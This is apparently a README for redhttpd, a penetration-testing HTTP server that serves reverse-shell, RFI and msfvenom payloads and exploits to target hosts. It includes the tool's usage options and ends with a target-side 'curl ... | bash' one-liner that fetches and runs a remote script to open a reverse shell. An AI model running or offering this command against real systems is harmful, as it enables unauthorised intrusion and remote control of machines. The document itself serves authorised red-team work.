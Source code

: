 # redhttpd

Forget "python -m SimpleHTTPServer". redhttpd implements - on top of SimpleHTTPServer ;) - a set of useful features for Red Teaming and Penetration Testing. This tool was designed to run on the "attacker side" and make his/her life easier in recurring tasks such as:
	
	1. getting a reverse shell in restricted environments - such as when there's only 1
	    outbound port open on the target host - with a simple target side one-liner
	    
	2. exploiting Remote File Inclusion (RFI) vulnerabilities
	
	3. transferring favorite/most used exploits and exploits' suggesters for privilege escalation
	
	4. creating and transferring msf shellcode
	
	5. transferring all kind of files to the target host.

# Usage

```
usage: redhttpd.py [-h] [-a BINDING_ADDRESS] [-p PORT] [-d ROOT_DIRECTORY]
                   (-y [{sh,py,ps1}] | -r [{php,asp,aspx}] | -x [{suggesters,linux,windows,mac}] | -m [MSF_SHELL] | -f FILES [FILES ...])
                   [-e [EXTENSION]] [-c [{wget,curl,powershell}]] [-v {0,1,2}]
                   [--LHOST LHOST] [--LPORT LPORT] [--no-netcat]

RedTeam httpd.

optional arguments:
  -h, --help            show this help message and exit
  -a BINDING_ADDRESS, --binding-address BINDING_ADDRESS
                        Local address where to bind.
  -p PORT, --port PORT  Listening port.
  -d ROOT_DIRECTORY, --root-directory ROOT_DIRECTORY
                        Root directory.
  -y [{sh,py,ps1}], --yolo [{sh,py,ps1}]
                        YOLO mode. Copy custom payloads from the corresponding 'yolo/' directory to root directory. Use it to serve one request and shutdown. Useful when chained with netcat listening on the same port. Warning: With this option on, -p/--port value will always be used even if LPORT is set. E.g.: ./redhttpd.py -p 53 -y
  -r [{php,asp,aspx}], --rfi [{php,asp,aspx}]
                        RFI mode. Copy custom RFI payload from corresponding 'rfi/' directory to root directory. Default: php. Use with -e/--extension argument to remove or change file extension.
  -x [{suggesters,linux,windows,mac}], --exploits [{suggesters,linux,windows,mac}]
                        Exploits mode. Copy custom exploits from the corresponding 'exploits/' directory to root directory. The default value is: linux.
  -m [MSF_SHELL], --msf-shell [MSF_SHELL]
                        msfvenom mode. Use msfvenom to create a shellcode and serve it. Use it just like msfvenom without LHOST, LPORT and -o parameters. E.g.: ./redhttpd.py -m " -p linux/x86/shell_reverse_tcp -f elf" --LHOST 192.168.0.1 --LPORT 53. (msfvenom required)
  -f FILES [FILES ...], --files FILES [FILES ...]
                        Custom files mode. Simply copy desired files to root directory.
  -e [EXTENSION], --extension [EXTENSION]
                        Change files extension. Only useful when used with -r/--rfi.
  -c [{wget,curl,powershell}], --clipboard [{wget,curl,powershell}]
                        Copy wget/curl/powershell + URL string to clipboard. Default: wget. (xclip required)
  -v {0,1,2}, --verbosity {0,1,2}
                        Set verbosity level.
  --LHOST LHOST         Use to substitute host placeholder.
  --LPORT LPORT         Use to substitute port placeholder.
  --no-netcat           Disables default netcat used in YOLO mode. By default, in YOLO mode, a netcat listerner starts after httpd handler is closed, on the same port redhttpd was running. (netcat required)
```

# Examples

## Simple example using YOLO mode to get a reverse shell through port 53

Server-side

```
python redhttpd.py -p 53 -y --LHOST=<REDHTTPD_ADDRESS>
```

Target-side (using bash)

```
curl -s <REDHTTPD_ADDRESS>/sh.txt | bash
```

